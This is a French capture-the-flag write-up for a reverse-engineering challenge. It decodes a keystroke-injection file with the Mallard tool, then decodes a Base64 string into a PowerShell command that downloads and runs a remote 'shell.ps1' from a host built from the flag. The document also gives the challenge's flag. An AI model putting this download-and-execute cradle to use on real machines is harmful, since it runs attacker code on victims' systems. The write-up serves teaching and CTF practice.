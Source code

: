 # Write-up – Reverse Challenge

## Introduction

Ce challenge de reverse engineering consiste à extraire un **flag** caché dans un fichier binaire (`inject.bin`). Le processus de résolution comporte deux  étapes : l'utilisation de l'outil **Mallard** pour décoder le binaire, puis le décodage d'une **chaîne Base64** extraite.

---

## Étape 1 : Décodage du fichier `inject.bin`

Le fichier `inject.bin` contient des données encodées.
Pour décoder ce fichier, nous allons utiliser l'outil open-source [Mallard](https://github.com/dagonis/Mallard).

### Procédure :
1. Ouvrir un **terminal PowerShell**.
2. Cloner le dépôt GitHub de Mallard :
   ```bash
   git clone https://github.com/dagonis/Mallard
    ```
3. Entrer la commande :
    ```bash
   python3 mallard -f <path_to_file_inject.bin>
    ```

## Étape 2 : Décodage de la chaîne Base64

Le contenu obtenu contient une chaîne encodée en Base64.
   ```bash
   SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMjRIe1QwdXRfM3N0X0NAc3MzfS9zaGVsbC5wczEnKQ==
```
On peut utiliser le site [CyberChef](https://gchq.github.io/CyberChef/) pour décoder la chaine.
On peut alors trouver le flag dans la chaine décodée.
   ```bash
   IEX (New-Object Net.WebClient).DownloadString('http://24HIUT{T0ut_3st_C@ss3}/shell.ps1')
```

## Flag

Le flag est : ```24HIUT{T0ut_3st_C@ss3}```